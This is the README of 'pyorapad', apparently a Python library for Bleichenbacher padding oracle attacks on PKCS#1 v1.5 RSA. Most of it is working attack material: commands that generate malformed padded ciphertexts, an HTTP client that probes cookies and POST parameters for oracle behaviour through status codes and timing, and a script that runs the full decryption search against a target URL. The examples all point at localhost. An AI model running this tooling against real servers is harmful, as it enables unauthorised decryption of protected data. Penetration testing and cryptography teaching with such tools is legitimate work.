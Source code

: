 pyorapad
========

A library to facilitate the exploitation of padding oracle attacks, more specifically attacks on PKCS1_v1.5. It implements the [Bleichenbacher](http://archiv.infsec.ethz.ch/education/fs08/secsem/Bleichenbacher98.pdf) attack to decrypt any ciphertext given a padding oracle.

## Generation of faulty padding

**pkcs1_test_client** is a client to generate faulty PKCS1 padded messages. Provide it an input message, and it will output a set of incorrectly padded messages. The 5 test cases implemented are:

```
➜  pyorapad git:(master) ./pkcs1_test_client.py -h | grep -i "padding test" -A 100
Padding Test:
  The padding tests to run (multiple choice possible). Each message will be
  output on a seperate line

  -1, --cm              Generate a valid PKCS1 v1.5 padded message
  -2, --cnb             Generate a valid PKCS1 v1.5 padded message which
                        contains multiple conecutive null-bytes
  -3, --nch             Generate a non-conforming PKCS1 v1.5 padded message.
                        Message will start with 0x0001, expected 0x0002
  -4, --ncl             Generate a non-conforming PKCS1 v1.5 padded message.
                        Message will contain a null-byte within the 8 bytes of
                        random padding
  -5, --ncd             Generate a non-conforming PKCS1 v1.5 padded message.
                        Message will not contain a null-byte delimiter
  -a, --all             Generate all test cases
```

For example, to generate all __-a__ cleartext __-c__ PKCS1 faulty messages for the __"ZZZZ"__ cleartext using the __256.pub__ public key, you can do the following:
```
➜  pyorapad git:(master) ./pkcs1_test_client.py -f keypairs/256.pub ZZZZ -a -c
0002ed31112d2834d547b288b1f8097ae4d3296f78a8b32be1b341005a5a5a5a
000277194205eafd22d4032d808ff0b2a950c614fa88fed3b20000005a5a5a5a
0001b4a1f7ea78ca60c9231703427a42491da04c861cf7e4ac6e75005a5a5a5a
00027f7e9b0033a684f92c50b43353d5f33f67a0a8938fce462ca2005a5a5a5a
0002cb998dc3a018b750d0319737afa00fbe14067ebcfac70fc0e7ff5a5a5a5a
```

To get the same output encrypted with the public key, just remove the __-c__ flag:
```
➜  pyorapad git:(master) ./pkcs1_test_client.py -f keypairs/256.pub ZZZZ -a   
0fc02a684419f82c12d83dd73c92182696afda77c69ac7c2c74fc6f16dfa6b15
69e944e68fdd6b4f52d8cd35dca43a53d19932813349595622e38c4a680f853a
8a4c71bb14ca822fdbc080cb3248285f0e1f7e5c7c54019bf08f0038e1de9b10
8d308248c7dc5bd57c7406f7d58e3814945a03a746cbb0525b5edcabfe62eda3
9101b24a425fe5d9f36ebd7c2c3243a9ab47a8c24fb73690a5daea0d6b12cb59
```

## Testing faulty padding

A very simple http client is provided to test a particular URL, POST parameter or header for PKCS1 padding oracle vulnerabilities. To do so, generate padding faults using the client above, and send the result to the **http_client**. The **http_client** will provide:
* The resulting status code
* The time it took for the request to complete
* (optional) The resulting request

For example, to send 5 times **-i** some a correctly padded output in the COOKIE header **-x** to the url **-u** you can do the following:
```
➜  pyorapad git:(master) ✗ ./pkcs1_test_client.py -f keypairs/256.pub abcd | ./http_client.py -u 'http://127.0.0.1:8000' -x Cookie="%s" -i 5
ae8dda9d89d27f8b1bd18565b6a09aabfa567b9db60fb2a1b788a959e278c811
	Code:      200	Duration:  0.006587
	Code:      200	Duration:  0.001053
	Code:      200	Duration:  0.000977
	Code:      200	Duration:  0.000994
	Code:      200	Duration:  0.000967
```

To test all **-a** faulty padding test cases of the POST **-p** parameter through a proxy (useful for debugging or further modifications using your favourite proxy), you can do the following:
```
➜  pyorapad git:(master) ✗ ./pkcs1_test_client.py -f keypairs/256.pub abcd -a | http_proxy="http://127.0.0.1:8080" ./http_client.py -u 'http://127.0.0.1:8000' -p param="%s" -i 1
58f3cc08f2de432e44b81d32f7639bcec89cd07752116615f17635dc0870d89c
	Code:      403	Duration:  0.035813
82195dad39e5be85c4959c3c5dfefc85c0e11582d5c42c5b61eb49faf0b2c59e
	Code:      403	Duration:  0.049567
382cdff02984da708f9332b48a64b64542b466c00b4386cff7595f0d0b1db2e3
	Code:      403	Duration:  0.048423
1a86ddd8a1c05351eb7c1c5f2c31fd2f55f3f03d9af86cfa0e6546fa553cec97
	Code:      403	Duration:  0.048562
4934721447b2ace0a30adb163313ec87d36c59a3cfdac6d3b258a90fff6a55dd
	Code:      500	Duration:  0.088740
```
The latest request is suspicious, since it returns a different error code and timing for an faulty message. You have found an injection point!

## Oracle, decrypt me that cleartext!

A bit of work is needed here, namely writting a similar script:

```python
import logging
from oracle import HttpOracle
from padding import Bleichenbacher

if __name__ == "__main__":
  logging.basicConfig(level=logging.DEBUG)
  try:
    def callback(resp, duration):
      ret = False
      if resp != None:
        #print(resp.getcode(), dict(resp.info()), resp.read())
        if resp.getcode() == 500:
          ret = True
      else:
        print("Request failed")
      return ret
    o = HttpOracle("http://127.0.0.1", headers={"Cookie":"name=%0128x"})
    o.set_proxy()
    b = Bleichenbacher.pubkey_from_file("512.pub", o, callback)
    m, i = b.run_search("49affbbe68d923e9cd1d2420fec72aea432b5a119df51f1bba89aa1245eeb627d6809eeebb02db75746df85435735e6e6d11067d77c66da23b7722051141bb19")
    print("Found cleartext :%i in %i iterations" % (m, i))
  except KeyboardInterrupt:
    b.stop_search()
```

Once this has run for a long time, you should get the cleartext message you are looking for
